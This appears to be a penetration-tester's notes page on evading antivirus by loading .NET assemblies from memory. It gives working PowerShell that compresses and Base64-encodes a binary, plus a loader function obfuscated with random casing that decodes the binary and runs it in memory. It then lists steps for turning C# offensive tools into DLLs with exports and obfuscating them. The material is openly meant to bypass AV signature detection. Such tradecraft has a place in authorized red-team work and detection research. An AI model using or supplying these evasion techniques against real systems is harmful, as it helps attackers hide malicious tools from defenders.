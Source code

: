 # .NET Reflective Assembly

- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)

A way to bypass AV signature analysis: you can Gzip-compress and Base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method public):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("\path\to\binary.exe")
[System.IO.MemoryStream] $output = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($output, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$output.Close()
[byte[]] $byteOutArray = $output.ToArray()
$encodedZipped = [System.Convert]::ToBase64String($byteOutArray)
$encodedZipped
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

```powershell
function Invoke-SomeBinary
{
	[CmdletBinding()]

	PARAM (
		[Parameter(Position = 0, Mandatory = $true)]
		[ValidateNotNullorEmpty()]
		[String]
		$cOmmANd
	)

	$a = NeW-obJeCt sYsTeM.Io.MEMoRysTREaM(,[coNveRT]::frombaSE64sTrINg(""))
	$DEcoMpRESSEd = nEw-obJEct SYsteM.io.CompREsSION.gzIPsTreaM($a, [sYstEM.iO.COMPrEssION.CompRESsIonMODE]::decOmPRESs)
	$OUtpuT = New-oBjeCt SySTeM.IO.MEmorYstREam
	$dEcoMPReSSEd.copYto( $outPUt )
	[BYte[]] $ByTEOuTarrAy = $OUtPUT.toarrAY()
	$RAs = [sySTeM.REfLecTIOn.ASSEmBlY]::load($bYTeOUTArraY)
	$olDconsOLeOuT = [CONSoLe]::out
	$StRInGwritEr = nEW-ObJEct System.IO.STRiNgwRiTEr
	[cONSOLE]::sEtOut($STringWRITer)

	[SomeBinary.Program]::maiN($COMmaND.SPliT(" "))

	[cOnsolE]::sEtout($olDCONsOleout)
	$resUlTs = $sTRInGWRiter.TOSTring()
	$rESuLTs
}
```




## C\# to Unmanaged DLL
* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}
